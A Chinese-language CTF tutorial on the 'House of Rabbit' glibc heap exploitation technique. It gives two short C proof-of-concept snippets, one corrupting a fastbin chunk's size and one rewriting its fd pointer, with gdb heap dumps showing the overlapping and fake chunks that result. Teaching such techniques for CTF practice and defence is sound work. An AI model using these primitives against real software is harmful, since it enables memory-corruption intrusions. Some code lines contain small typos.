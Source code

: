 
# House of Rabbit

## 介绍
House of rabbit是一种伪造堆块的技术，早在2017年已经提出，但在最近两个月才在CTF比赛中出现。我们一般运用在fastbin attack中，因为unsorted bin等其它的bin有更好的利用手段。

## 原理
我们知道，fastbin中会把相同的size的被释放的堆块用一个单向链表管理，分配的时候会检查size是否合理，如果不合理程序就会异常退出。而house of rabbit就利用了在malloc consolidate的时候fastbin中的堆块进行合并时size没有进行检查从而伪造一个假的堆块，为进一步的利用做准备。

由于原作者的[POC](https://github.com/shift-crops/House_of_Rabbit)需要的条件较多，这里我直接介绍这个攻击的本质即可。

`前提条件`:
1. 可以修改fastbin的fd指针或size
2. 可以触发malloc consolidate(merge top或malloc big chunk等等)


下面来看一下POC
`POC 1`: modify the size of fastbin chunk
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x40); //0x602050
malloc(0x10);
free(chunk1);
free(chunk2);
/* Heap layout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
..... 
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x602000 --> 0x0 
0104| 0x602068 --> 0x0 
...... 
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x21 ('!')
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x0 
*/
chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
/*Chunk1 overlap with chunk2 now
gdb-peda$ telescope 0x602000 100
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0xa1 
0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0032| 0x602020 --> 0x0 
.....
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0112| 0x602070 --> 0x0 
0120| 0x602078 --> 0x0 
....
0152| 0x602098 --> 0x0 
0160| 0x6020a0 --> 0xa0 
0168| 0x6020a8 --> 0x20 (' ')

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603450 (size : 0x1fbb0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602050
(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )
*/
```
`POC 2`:modify FD pointer
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x100);//0x602050

chunk2[1]=0x31; //fake chunk size 0x30
chunk2[7]=0x21  //fake chunk's next chunk
chunk2[11]=0x21 //fake chunk's next chunk's next chuck
/* Heap laylout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
......
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x111 
0096| 0x602060 --> 0x0 
0104| 0x602068 --> 0x31 ('1')
0112| 0x602070 --> 0x0 
......
0144| 0x602090 --> 0x0 
0152| 0x602098 --> 0x21 ('!')
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x0 
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x21 ('!')
0192| 0x6020c0 --> 0x0 
......
0352| 0x602160 --> 0x0 
0360| 0x602168 --> 0x20ea1
*/
free(chunk1);
chuck1[0]=0x602060;// modify the fd of chunk1
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0
*/
malloc(5000);// malloc a  big chunk to trigger malloc consolidate
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x6034f0 (size : 0x1fb10) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060
*/
```

原理很简单，就是通过修改fastbin chunk的size(如上面的POC 1所示)直接构造overlap chunk，或者修改fd(如面的POC 2所示)，让它指向一个fake chunk，触发malloc consolidate之后让这个fake chunk成为一个合法的chunk。

## 总结
House of rabbit的优点是容易构造overlap chunk，由于可以基于fastbin attack，甚至不需要leak就可以完成攻击。大家可以通过例题的练习加深对这个攻击的理解。

## 例题
1. HITB-GSEC-XCTF 2018 mutepig
2. 待补充








